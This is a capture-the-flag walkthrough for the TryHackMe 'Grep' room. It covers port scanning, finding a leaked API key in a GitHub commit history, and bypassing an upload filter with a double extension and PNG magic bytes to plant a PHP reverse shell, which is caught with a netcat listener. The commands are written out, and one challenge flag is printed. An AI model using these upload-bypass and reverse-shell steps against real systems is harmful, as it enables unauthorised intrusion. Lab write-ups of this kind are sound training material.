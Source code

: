 # [Grep](https://tryhackme.com/room/greprtp)

> A challenge that tests your reconnaissance and OSINT skills.

## Scanning

scan the target

```
nmap -sS -sV -T4 -p- 10.10.47.192
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8eea4c33-a3e6-4f14-9788-2c6fb5fccc9e)

3 open web servers (80,443,51337)

## HTTP

let's check the webapp, it seem nothing on port 80

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9c092200-27e8-47cd-836e-f650f2eb00e4)

and port 443 got error

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c52682cb-c0de-4ed0-b93b-ecf57e4349b6)

refer to previous nmap report, i need to add domain grep.thm to hosts file

```
echo "10.10.47.192  grep.thm" >> /etc/hosts
```

okay, here you are

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1f57df76-a604-4f01-b899-c3d540853d5a)

## Enumeration

as the hint, the website is developed by SuperSecure Corp, and it's under developed

after a bit research i find it on Github with `"SearchME" AND "This website is under development"`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d6a19b7c-4e54-432a-b162-c678a06293b0)

exactly what we need, only 4 commits and it's also a new project

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/535843cf-d107-4799-8364-a65402e88376)

i found some endpoints here

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f581e7a8-b619-4631-8b6a-1851bdeb7e41)

i tried to register an account but it need an API key

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b0f69e05-5904-4eaa-bb17-be19ea88f752)

i can easily get key via a commit "remove key"

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cabec059-62ae-4550-aa0f-50d8ba84d7c2)

open burpsuite, catch request, change X-THM-API-Key to our key

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ce6a28c3-2bf5-4f61-8aa1-a8f30912c154)

after login, we got the first flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d2c38954-7c7e-414a-a199-9d56adb39629)

| Flag | First flag |
| --- | --- |
| Answer | THM{4ec9806d7e1350270dc402ba870ccebb} |

## Exploitation

another endpoint is upload.php allowed us upload images to /uploads

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/af510b59-dc11-4d7d-98cb-80504a4a7498)

```
cp /usr/share/webshells/php/php-reverse-shell.php .
vi php-reverse-shell.php
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e2d714bc-2e86-404d-bc0b-4197015c6832)

remember, webserver filter file by 2 things: extensions and magic bytes

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/27d0d8b0-d8a3-4ccf-bf06-75befb1f757f)

so, we need to change both extension and some magic bytes

```
mv php-reverse-shell.php reverse.png.php
vi reverse.png.php
```

padding some characters at the beginning of file

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0ec55307-ed53-4dd3-be43-9aee988e1127)

change the padding hex to png magic bytes

```
hexedit reverse.png.php
89 50 4e 47
Ctrl+X
xxd reverse.png.php | head
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4a89a5dd-f29f-45d1-8a5c-06f48fa5e4be)

file uploaded successfully

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/da192a83-8f52-4e87-98b1-39bca5144c01)

```
nc -vlnp 1234
```

go to https://grep.thm/api/uploads/ and click to our file

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b64e0960-041f-43a5-a4d1-0aba83e3fb42)

we got our shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5db92b3a-6ed1-4da7-826c-97c56b6dc3e7)

i checked nothing at home folders, but in our /var/www, i see 2 interesting folder

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e84150a1-76d9-47c7-a092-c4d097a90847)

we only have permission on user.sql maybe contain admin's email

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8097c0f2-dacb-478c-8d79-8141af8004ab)

```
cd backup
grep admin user.sql
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/81a91ee4-394d-411c-8aa4-01976a114ae9)

backto leakchecker and a lot of certificate in web folder, i think it related to a domain

```
echo "10.10.47.192  leakchecker.grep.thm" >> /etc/hosts
```

here, you can find it in port 51337 from previous nmap scan

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c1193173-c46a-4457-8190-f2bd53efac2d)

just enter admin's email to get password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f5088a59-08ec-4b4f-9150-a854b41546dc)













.

| Flag | user.txt |
| --- | --- |
| Answer | <flag> |
